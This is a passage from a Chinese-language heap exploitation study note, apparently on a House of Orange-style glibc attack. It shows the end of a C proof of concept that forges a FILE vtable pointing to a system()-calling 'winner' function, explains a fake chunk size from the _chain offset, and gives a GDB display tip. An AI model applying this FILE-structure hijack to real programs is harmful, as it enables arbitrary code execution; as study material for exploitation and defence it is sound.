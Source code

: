 ```c
    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
    malloc(10);
    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```



执行malloc(10)前，对unsorted bin的伪造

![](4.png)


注：这里fake_size为0x61是因为_chain在FILE结构体中偏移量是0x68



**补充：GDB提供了格式化输出显示结构体的选项，set print pretty off， 这个选项的默认是关闭的。打开该选项set print pretty on再次打印结构体，结果如下：我TM直接就快乐了**
